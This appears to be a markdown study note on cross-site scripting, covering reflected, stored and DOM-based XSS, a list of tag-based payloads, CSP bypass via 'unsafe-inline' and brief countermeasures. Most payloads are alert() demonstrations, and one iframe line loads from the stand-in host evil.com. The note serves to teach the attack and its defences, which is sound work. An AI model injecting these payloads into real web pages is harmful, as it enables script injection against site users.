 # Cross Site Scripting Vulnerability

Cross-site Scripting (XSS) is a client-side code injection attack. The attacker aims to execute malicious scripts in a web browser of the victim by including malicious code in a legitimate web page or web application.


## Types of XSS: 

- Reflected XSS
	- User input get reflected into the vector we injected in, input isn't stored by any means.

https://insecure-website.com/status?message=<script>/*+Malicious+Code+*/</script>

- Stored XSS
	- User input gets stored into database, the value get reflect. (Could be as an example, a Blog post, user nicknames , a Comment, etc)
```javascript	
<p>Hello, Welcome $Username !</p>
<p><script>/* Malicious */</script></p>
```
- DOM-based XSS
	- User input stored and exists in client-side code rather than server-side code.


## XSS Attack Vectors

- ```<script>``` tag
<script> alert("XSS"); </script>
- JavaScript events
```javascript
<body onload=alert("XSS")>
```
- ```<body>``` tag
```javascript
<body background="javascript:alert("XSS")">
```
- ```<img>``` tag
```javascript
<img src="javascript:alert("XSS");">
```
- ```<iframe>``` tag
```javascript
<iframe src="http://evil.com/xss.html">
```
- ```<input>``` tag
```javascript
<input type="image" src="javascript:alert('XSS');">
```
- ```<link>``` tag
```javascript
<link rel="stylesheet" href="javascript:alert('XSS');">
```
- ```<table>``` tag
- ```<div>``` tag

- XSS Filter Evasion Cheat Sheets: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html 


***

## byPassing Template Engines
- We must search for the right template engine that oru application uses, and then we makes our search on the available bypasses inorder to exploit our target.

### CSP - Content Security Policy
- CSP is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting (XSS) and data injection attacks. 
	-  Enabling CSP, Content-Security-Policy HTTP header
- Allows originating Javascript from own host only.
	 - Content-Security-Policy: script-src 'self'

#### How to ByPass CSP
- 'unsafe-inline'
	- Content-Security-Policy: script-src https://google.com 'unsafe-inline';
	- Working payload: ``` "/><script>alert(1);</script>```
	
- Read more: https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
***
## Countermeasures:

- Must sanitize the input.
	- Application code should never output data received as input directly to the browser without checking it for malicious code.
- Set the HttpOnly flag.
- Use a Content Security Policy


***

## Takeaways: 

- 
- 

